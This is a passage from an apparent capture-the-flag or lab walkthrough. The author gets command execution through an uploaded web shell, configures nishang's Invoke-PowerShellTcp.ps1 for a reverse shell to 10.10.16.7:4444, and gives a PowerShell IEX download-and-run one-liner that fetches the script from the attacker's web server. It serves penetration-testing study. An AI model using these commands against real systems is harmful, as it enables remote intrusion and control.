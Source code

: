 ```
1442 bytes sent in 00:00 (3.13 KiB/s)
ftp> 
```

Now accessing it through the web server
![image](https://user-images.githubusercontent.com/113513376/213596135-e0e63068-09df-43b8-814c-b506eb4941d5.png)

We can run command via this minimal shell
![image](https://user-images.githubusercontent.com/113513376/213596179-9c93c2c6-cd6d-4865-9d3f-c1df08480e1e.png)

So lets get a more stable shell

I'll be using Invoke-PowerShellTcp.ps1 script 

```                                                                                                     
┌──(mark㉿haxor)-[~/Desktop/Tools/nishang/Shells]
└─$ nano Invoke-PowerShellTcp.ps1                                           
                                                                                                        
┌──(mark㉿haxor)-[~/Desktop/Tools/nishang/Shells]
└─$ tail Invoke-PowerShellTcp.ps1
        }
    }
    catch
    {
        Write-Warning "Something went wrong! Check if the server is reachable and you are using the correct port." 
        Write-Error $_
    }
}

Invoke-PowerShellTcp -Reverse -IPAddress 10.10.16.7 -Port 4444
                                                                                                        
┌──(mark㉿haxor)-[~/Desktop/Tools/nishang/Shells]
└─$ 
```

Starting a web server in the directory of the powershell script and also a netcat listner on port 4444

```                                                                                                       
┌──(mark㉿haxor)-[~/Desktop/Tools/nishang/Shells]
└─$ pyws -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Using this powershell command which would get the script from the remote host and directly run it without saving it on the device

```
powershell IEX(New-Object Net.WebClient).downloadString('http://10.10.16.7/Invoke-PowerShellTcp.ps1')
```

It hangs
![image](https://user-images.githubusercontent.com/113513376/213596782-5d327269-60f6-4cee-84ca-3170a0601f18.png)
